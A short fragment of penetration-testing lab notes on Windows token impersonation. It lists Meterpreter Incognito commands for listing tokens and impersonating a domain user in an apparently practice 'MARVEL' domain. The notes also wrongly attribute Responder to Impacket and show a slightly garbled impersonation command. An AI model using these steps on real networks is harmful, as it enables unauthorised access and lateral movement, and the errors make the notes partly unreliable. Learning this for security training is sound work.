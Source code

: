 ### Attack
**Attack Condition** : MITM and internal network.
**Tools** : **`Responder`** from `Impacket`.

**Attack Method**
1. Pop a shell and load Incognito.
2. Impersonate our domain user.

**Note** : We will be only able to impersonate any user only if they are logged in once.
```bash
meterpreter> load  incognito
meterpreter> list_tokens -u
  ...a list of users...
meterpreter> impersonated user MARVEL\fcastle
```
![](/assets/Images-Notes-01/2022-01-08-13-27-13.png)